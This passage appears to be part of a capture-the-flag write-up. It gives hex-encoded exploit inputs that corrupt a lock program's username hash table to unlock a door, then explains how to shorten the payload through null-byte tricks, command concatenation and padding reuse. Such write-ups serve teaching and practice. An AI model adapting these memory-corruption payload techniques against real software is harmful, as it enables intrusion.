 ```
6e657720082041
6e657720182041
6e657720682041
6e657720282041
6e657720302041
6e657720c64cfc50f5f32041
6e657720382041
6e657720402041
6e657720482041
6e657720502041
6e657720582041
6e657720602041
aaaaaaaaaaaaaaaaec4caaaa7f
```

### Decreasing the length

The solution above, however, is not the optimal solution. Experimentation with the pins reveals 0x0 is a valid pin. As the pins play no significant role (from what I found), their values do not matter. One may also remember the input is preprocessed by the program, replacing all 0x20 bytes with 0x0. The above two factors imply the command "6e657720082041" play an equivalent role as "6e657720082000", which is equivalent to "6e657720080000". As the input buffer is guaranteed to be filled with 0x0 (it is cleared after each input), the last 2 bytes of the command may be omitted.

Further optimisation can be performed by omitting all bytes after the initial '6e'. As the program confirms the command by the initial character instead of the entire string, omitting the remaining values tricks the program into thinking a username of 0x0 was entered. Furthermore, a username of 0x0 conveniently has a hash that allocates it to bin 0, allowing it to be used. However, as duplicate usernames are not allowed, this command can only be used once.

Concatenation of the last 2 commands can be performed as the length of the padding exceeds the length of the command. The commands are separated with ';'. As the size of the previous command and ';' is the same as the padding, no further padding is required.

This allows the following inputs, which unlocks the door:

```
6e
6e65772018
6e65772008
6e65772028
6e65772030
6e657720c64cfc50f5f3
6e65772038
6e65772040
6e65772048
6e65772050
6e65772058
6e6577206020413bec4caaaa7f
```

The '.next' in the 6th command was not randomly chosen. The instruction with value 0x50fc requires 2 arguments, allowing it to include one of the `push` instructions as its argument, thus shortening the padding required by 2 bytes.
